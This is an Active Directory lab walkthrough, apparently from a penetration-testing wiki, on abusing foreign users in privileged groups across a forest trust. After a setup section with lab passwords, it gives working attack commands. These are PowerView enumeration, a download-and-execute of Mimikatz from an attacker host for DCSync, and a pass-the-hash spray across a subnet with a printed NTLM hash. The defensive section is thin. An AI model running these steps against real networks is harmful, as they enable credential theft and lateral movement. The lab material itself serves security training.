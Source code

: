 # Foreign user

## Configuring

1. Login to `DC01` with the `Administrator` user and the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" administration tool.

![](<../../.gitbook/assets/image (17) (2).png>)

3\. Open the "Users" directory and right click it, then select "New" and then "Users".

4\. Create a new user with the name `secure_admin` and the password `rFKbUJrDu$sz*36ffKr6`.

![](<../../.gitbook/assets/image (22) (1).png>)

5\. Make sure "Password never expires" is checked and "User must change password at next logon" is unchecked when creating the user.

6\. to `DC03` with the `Administrator` user and the password `Welcome01!`.

7\. Open the "Active Directory Users and Computers" administration tool.

8\. Open the "Users" directory and right click it, then select "New" and then "Group".

9\. Make a new group with the name `Local admin data` and select group scope "Domain Local".

![](<../../.gitbook/assets/image (77) (1) (1).png>)

10\. Right click the group and select "Properties". Click on the "Members" tab and click on "Add"

11\. Click on "Locations" and select bank.local.

![](<../../.gitbook/assets/image (59) (1).png>)

12\. Enter the username secure\_admin and click "Check Names" and then click "OK".

![](<../../.gitbook/assets/image (65) (2).png>)

13\. Click "Apply" and then "OK".

14\. To make the group local admin to the `DATA01` server there are two options

* Login to the machine and use the net command to add the group to the local administrators group.
* Deploy a GPO to make the group local admin on the machine.

15\. We will go with the first step since its just easier for the lab setup, but normally IT would deploy it with GPO. So login with the username Administrator and password Welcome01! to DATA01 and execute the following command:

```
net localgroup administrators "local admin data" /add
```

![](<../../.gitbook/assets/image (64) (1).png>)

## Attacking

### How it works

If there is a trust between two forests, it is possible to add a user of domain A to a group in domain B. If for example this group gives local admin privileges to a system in forest B then after taking over that user it is possible to gain access to domain B using that account. Depending on the trust flow configured between the domains(one way or two way trust), they can both add other users or only one domain can add users.

Meaning that if you take over domain A you can easily access domain B by enumerating the groups which have a foreign user from domain A. I see this often used for having one admin account to manage both domains for example.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

This attack is executing from the perspective of already gaining Enterprise Admin privileges within the `bank.local` admin.

1. To easily execute the attack login on `DC01` with the user `Administrator` and the password `Welcome01!`.
2. Start PowerShell and load an amsi and PowerView into memory:

![](<../../.gitbook/assets/image (57).png>)

3\. With the PowerView cmdlet `Get-DomainForeigGroupMember` we can query the target domain for users in groups that aren't from their domain.

```
Get-DomainForeignGroupMember -Domain secure.local
```

![](<../../.gitbook/assets/image (44).png>)

4\. The output shows us that there is a foreign user in the `Local admin data` group and that the member is `S-1-5-21-320929719-844265543-1524670925-1602`.  To get the user name we can use the `ConvertFrom-SID` cmdlet from PowerView:

```
ConvertFrom-SID S-1-5-21-320929719-844265543-1524670925-1602
```

![](<../../.gitbook/assets/image (78) (1) (1).png>)

5\. The user `bank\secure_admin` from `bank.local` is member of `local admin data` in `secure.local`. We can also see this in bloodhound after collecting the data for both domains and loading it into the BloodHound GUI.

```
Invoke-BloodHound -Collectionmethod all -Domain secure.local
Invoke-BloodHound -Collectionmethod all -Domain bank.local
```

After clicking on "Users with Foreign Domain Group Membership" and selecting `Secure.local` under the "Dangerous Rights" section in the "Analysis" tab we see:

![](<../../.gitbook/assets/image (75).png>)

6\. Since we are already domain admin we could simply reset the password for the `secure_admin` user. But this isn't OPSEC safe, so we can execute a dcsync to grab its NTLM hash and then use it to spray against the other domain computers to check if the user has access to any machine. To execute the DCSync load MimiKatz into memory and use the following command:

```
iex (iwr http://192.168.248.2:8090/Invoke-Mimikatz.ps1 -UseBasicParsing)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:bank\secure_admin /domain:bank.local"'
```

![](<../../.gitbook/assets/image (16) (1) (3).png>)

7\. The next step would be to spray this hash against all systems of the secure.local domain. But its just easier to spray it against the whole subnet with crackmapexec. To do this we use the following command:

```
cme smb 10.0.0.0/24 -u secure_admin -H a0f6b4d3c6a9da1204520ccd72e54597 -d bank.local
```

![](<../../.gitbook/assets/image (39) (1).png>)

8\. The user `secure_admin` from `bank.local` is local admin to the `DATA01` machine from `secure.local`.

## Defending

### Recommendations

I would recommend to not add users from other domains in privileged groups if you don't FULLY trust the other domain to be secure. But this is a risk based decision to make.

### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}
